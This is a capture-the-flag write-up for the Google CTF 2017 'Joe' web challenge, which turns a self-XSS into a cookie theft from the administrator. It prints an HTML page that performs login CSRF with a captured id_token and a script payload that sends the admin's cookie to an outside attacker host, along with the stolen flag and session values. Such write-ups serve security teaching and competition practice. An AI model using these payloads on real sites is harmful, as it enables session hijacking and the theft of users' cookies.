


## Google CTF 2017 - Joe (Web 347pt)
##### 17-18/06/2017 (48hr)
___
### Description

Meet our brand new personal assistant, Joe. He is the perfect talking partner if you want to have 
some small talk with a machine. We have put extra emphasis on security when developing Joe, 
but we'd like to invite you to participate in our H4x0r R3w4rd Pr06r4m (HRP) to help us 
make Joe even more secure. If you can find a vulnerability that makes it possible to 
steal the cookies of the administrator, we will reward you with a valuable flag.


https://joe-dot-ctf-web-kuqo48d.appspot.com

___
### Solution

The website shows some information on how to use the agent. If we try to access admin's page
we'll get the following message:
```
Sorry, you're either not listed as admin user, or you don't have your FLAG cookie set to the secret value.
```

Clearly, our goal is to get admin's cookie. There's a straightforward XSS if we chage Joe's name:
```
your name is <script>alert('foo')</script>

Sure. From now on, call me <script>alert('foo')</script>.
```

Although, reflected text is "sanitized", the XSS is triggered upon login. The problem here is that
XSS is on our page (self XSS), but we want to execute the code on admin's page. If we type
"bug report", we can submit a link and admin will review it.

A quick look at the [main.js](./main.js) reveals many details on how the website works:
```javascript
function displayMessage(message, peer) {
  var row = document.createElement('p');
  row.className = peer;
  row.textContent = message;
  conversation.appendChild(row);
  if (message == 'Please enter an URL where the administrator can read your report.') {
    window.last_recaptcha_widget = grecaptcha.render(row, {
      sitekey: '6LcpdyEUAAAAANJs8t_yNnYN_N82aP1w7gjoN5k4'
    });
  }
}

csrf_header = new Headers();
csrf_header.append('CSRF-Protection', '1');

function getText(response) {
  return response.text();
}

function sendMessage(msg) {
  var url = '/message?msg=' + encodeURIComponent(msg)
  if (window.last_recaptcha_widget !== undefined) {
    url += '&captcha=' + encodeURIComponent(grecaptcha.getResponse(window.last_recaptcha_widget));
    delete window.last_recaptcha_widget;
  }
  fetch(url, {headers: csrf_header, credentials: 'include'}).then(getText).then(function(res) {
    displayMessage(res, 'joe');
  });
}

window.addEventListener('load', function() {
  messagebox.addEventListener('keydown', function(event) {
    if (event.keyCode == 13 && messagebox.value != '') {
      displayMessage(messagebox.value, 'user');
      sendMessage(messagebox.value);
      messagebox.value = '';
    }
  })
});
```


Trying to send a message to the admin directly (using the '/message?msg=' URL) doesn't
work due to the CSRF protection. The first approach is a cross domain AJAX request.
Although the response is blocked due to the SOP, the actual request arrives to the server.
To prevent this problem Chrome performs an OPTIONS request first and if it succeeds it
continues with the GET request.

However the problem of converting a self XSS into regular XSS is not new. The general
approach is to logout the victim and login him back into attacker's account, where
XSS payload resides.

If we take a closer look at the network logs during authentication:


we will see the following request:

```
http://joe-dot-ctf-web-kuqo48d.appspot.com/login?id_token=eyJhbGciO[....]VsBf0dupXW50g
```

Note that by copy-pasting this link to another browser we can login without any
further authentication. Also if the admin is already logged in, we can logout
him using CSRF on `http://joe-dot-ctf-web-kuqo48d.appspot.com/logout`. And if admin
is logged out we can login him back to his account using the URL
`http://joe-dot-ctf-web-kuqo48d.appspot.com/login`

Therefore, our attack is the following: First admin visits our malicious webpage 
`https://ispo.gr/attack.php` which contains the following code:
```html


<script>
setTimeout( 
	function() { 
		img = document.createElement('img');
		img.src = 'http://joe-dot-ctf-web-kuqo48d.appspot.com/login?id_token=eyJhbGciOiJSUzI1'+
		'NiIsImtpZCI6ImVjODcyYzE2YmY2NTQyMGRkMDJjZDQ0MTAzY2Q5ODBjNTlmMWNjMWYifQ.eyJhenAiOiIyO'+
		'DQ5NDAzNzA5MjUtY240aWZlZnVrMzNrbjBiODg3cHBwdjVmamI5MWU4cTcuYXBwcy5nb29nbGV1c2VyY29ud'+
		'GVudC5jb20iLCJhdWQiOiIyODQ5NDAzNzA5MjUtY240aWZlZnVrMzNrbjBiODg3cHBwdjVmamI5MWU4cTcuY'+
		'XBwcy5nb29nbGV1c2VyY29udGVudC5jb20iLCJzdWIiOiIxMDYxMTU2MDcxMDE5OTg0MDM3NjQiLCJhdF9oY'+
		'XNoIjoibU52VkxGNThfQ2ZObVRNRTMya3JvdyIsImlzcyI6Imh0dHBzOi8vYWNjb3VudHMuZ29vZ2xlLmNvb'+
		'SIsImlhdCI6MTQ5NTg1OTI3NSwiZXhwIjoxNDk1ODYyODc1LCJuYW1lIjoiaXNwbyA7IiwicGljdHVyZSI6I'+
		'mh0dHBzOi8vbGgzLmdvb2dsZXVzZXJjb250ZW50LmNvbS8tV2NjaFg2bWJfckkvQUFBQUFBQUFBQUkvQUFBQ'+
		'UFBQUFBSW8vTXYzMk5JdEQ5MUEvczk2LWMvcGhvdG8uanBnIiwiZ2l2ZW5fbmFtZSI6ImlzcG8iLCJmYW1pb'+
		'HlfbmFtZSI6IjsiLCJsb2NhbGUiOiJlbCJ9.ZDgUUIHcyMgcdUVUNHuvR2YqGlCLzGDTmWmR_ScRi5ejV9IO'+
		'YHyi1sz7dwiBXAqJ1WWF-_N_OggpCYADIoG3EDGqlqfkJrEavh3Xu_QW61ioA7_MSQWngReEgAxGkBQTv-1J'+
		'LlbHyn58ls1LCYOn1fSIQVVbLkqZAqYIH2GgKuq0Glk-XXHlZoxOknDP0F1rwgiY1Mhmvr33UOuOXSs-sJ7n'+
		'gq5bvi7eEPZvhMN_sITwJ7dNgUeUuL5_heUona1UdpFuO_cdCLYvoHeziT4pSsFgDwAxzb0-B4PD7FfoOxu8'+
		'sSLtuENUWQmVed_ye2sxLlfXHcWQkrDBiuFLTKw2VA';
	}, 1000);

</script>
```


This will logout admin and will login him back at the attacker's profile. The next step is 
to inject the following payload in our profile:
```html
<iframe id='i' src'=http://joe-dot-ctf-web-kuqo48d.appspot.com/login'></iframe>

<script>
	setTimeout( 
		function() { 
			m=document.createElement('img');
			m.src='https://ispo.gr/xss.php?cookie='+
				document.getElementById('i').contentWindow.document.cookie
		},
	999)
</script>
```

(Keep in mind that payload is limited to 256 chars, so we have to keep it small).
This will create a new iframe (which is isolated) and will login admin again in his profile.
Because we're under the same origin, we can access the contents of the iframe directly from
javascript, so we grab his cookie and we sent it back to attacker's machine. The full attack
is shown below:



After submitting the link for review, we'll see into the console (the file that xss.php writes to):
```
Connected! Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/58.0.3029.110 Safari/537.36

Got Cookie! flag=CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!}; session=eyJhcGlhaV9zZXNzaW9uIjoiMTA2MTE1NjA3MTAxOTk4NDAzNzY0IiwidXNlcl9uYW1lIjoiaXNwbyJ9|1495864281|bcc1db548cea8c00260e5b5974c68c2f877c43b8
```

So the flag is `CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!}`.

___
